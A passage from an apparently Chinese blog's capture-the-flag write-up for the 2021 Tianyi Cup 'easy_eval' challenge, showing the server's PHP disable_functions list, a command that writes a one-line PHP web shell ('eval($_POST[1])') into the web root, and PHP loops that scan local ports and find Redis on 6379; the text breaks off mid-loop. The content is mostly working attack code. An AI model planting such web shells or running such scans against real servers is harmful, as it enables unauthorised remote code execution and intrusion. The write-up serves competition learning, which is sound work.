 ```yaml
---
title: 2021第二届“天翼杯”网络安全攻防大赛
tags:
  - null
categories:
  - Redis漏洞复现
  - 知识点
description: "Welcome to my blog \U0001F601\U0001F601\U0001F601\U0001F601"
top_img: /2.jpg
cover: /image/buu.png
password: sm1le
date: 2021-09-23 09:09:47
top:
---
```




# 2021第二届“天翼杯”网络安全攻防大赛





# esay_eval



```
open_basedir	/tmp/:/var/www/html/	/tmp/:/var/www/html/

pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,passthru,exec,system,chroot,chgrp,chown,shell_exec,popen,proc_open,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,passthru,pcntl_alarm,pcntl_waitpid,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv,putenv,mail,debug_backtrace,debug_print_backtrace,gc_collect_cycles,array_merge_recursive,curl_init,curl_exec

session.save_path	/var/lib/php/sessions	/var/lib/php/sessions
```



```
file_put_content("/var/www/html/1.php","<?=eval($_POST[1]);")
```



```php
for($i=0;$i<65535;$i++) {
  $t=stream_socket_server("tcp://0.0.0.0:".$i,$ee,$ee2);
  if($ee2 === "Address already in use") {
    var_dump($i);
  }
}

6379 Opend

$arr = range('20000', '65535');
foreach ($arr as $port) {
//    echo 1;
    $fp = @fsockopen('127.0.0.1',$port,$errno,$errstr,0.1);
    if (!$fp) {
```